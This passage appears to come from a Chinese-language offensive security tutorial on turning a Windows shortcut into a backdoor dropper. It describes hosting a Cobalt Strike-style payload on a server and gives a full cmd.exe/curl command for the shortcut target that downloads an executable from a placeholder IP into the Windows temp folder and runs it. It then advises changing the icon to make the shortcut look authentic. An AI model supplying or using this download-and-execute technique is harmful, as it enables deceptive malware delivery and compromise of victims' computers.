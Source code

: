 ### 0x02.快捷方式

制作思路：运行快捷键方式时，执行命令让其下载我们提前放在服务器上的后门程序并且运行

步骤一：cs生成后门，放到服务器网站目录下  
[![](assets/1701612327-2280c67556cd4722efd00748abbf2e5a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710171426-2aee8424-1f02-1.png)

步骤二：创建快捷方式，在目标中写入以下代码

```plain
C:\Windows\System32\cmd.exe /k curl http://xxx.xxx.xxx.xxx/exe/artifact.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe
```

[![](assets/1701612327-08c67e9cc1f4d07bca52e6f4e8ec76d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710171449-388e1c70-1f02-1.png)

步骤三：更换图标，增加其真实性  